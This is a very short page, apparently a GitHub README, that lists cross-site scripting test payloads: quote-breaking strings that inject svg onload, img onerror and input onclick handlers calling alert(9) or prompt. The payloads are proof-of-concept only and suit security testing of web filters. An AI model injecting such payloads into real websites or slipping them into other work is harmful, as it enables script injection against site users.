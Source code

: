 # -svg-onload-alert-9-
">&lt;svg/onload=alert(9)>&lt;"
"><svg/onload=alert(9)><"
"><img rsc=x {onerror=prompt``}><"
"><img src=x onerror=alert(9)><"



'><input type="button" value="alert" onclick="alert(9)"><'
